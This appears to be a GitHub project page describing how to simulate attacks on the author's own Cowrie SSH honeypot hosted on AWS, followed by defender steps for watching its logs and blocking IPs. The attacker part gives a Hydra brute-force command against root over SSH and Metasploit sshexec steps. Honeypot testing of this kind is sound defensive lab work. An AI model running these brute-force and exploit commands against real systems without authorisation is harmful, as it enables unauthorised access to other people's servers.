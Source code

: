 # Attack Simulation

This section covers how to simulate attacks on the honeypot to analyze its behavior.

## Role of the Attacker
### Tools Used:
- **Hydra**: For brute-force password attempts.
- **Metasploit Framework**: To exploit vulnerabilities.

### Steps:
1. Identify the honeypot’s IP and port (**2222**).

2. **Use Hydra for brute-forcing**:
   ```bash
    hydra -l root -P passwords.txt ssh://<public-ip>:2222

3. **Exploit vulnerabilities with Metasploit**:
   ```bash
    msfconsole
    use exploit/unix/ssh/sshexec
    set RHOST <public-ip>
    set RPORT 2222
    run


##Role of the Defender
##Tools Used:
- **Honeypot logs**: /home/cowrie/cowrie/var/log/cowrie.log.
-**AWS Security Groups for blocking malicious IPs**.


##Steps:
1. Monitor logs in real time:
   ```bash
     tail -f /home/cowrie/cowrie/var/log/cowrie.log

2. **Identify suspicious IPs and block them**:
  ```bash
     aws ec2 revoke-security-group-ingress --group-id <group-id> --protocol tcp --port 2222 --cidr <malicious-ip>/32
